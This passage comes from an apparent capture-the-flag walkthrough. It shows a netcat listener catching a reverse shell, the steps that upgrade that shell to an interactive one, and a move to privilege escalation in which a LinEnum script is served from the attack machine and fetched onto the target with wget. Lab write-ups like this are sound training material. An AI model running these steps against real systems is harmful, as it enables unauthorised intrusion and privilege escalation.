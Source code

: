 ```text
nc -nlvp 1234
```

Send the request in Burp.

![](https://miro.medium.com/max/966/1*W5JimPWX2zt9VZTQW28n5g.png)

We get a shell! Let’s upgrade it to a better shell.

```text
python3  -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Let’s see if we can view the _user.txt_ flag.

![](https://miro.medium.com/max/722/1*4R6GVJPy9Wi6IMgJdn0M1w.png)

Now we need to escalate privileges.

## Privilege Escalation <a id="a8b3"></a>

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine, change to the /tmp directory where we have write privileges and download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.12:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.
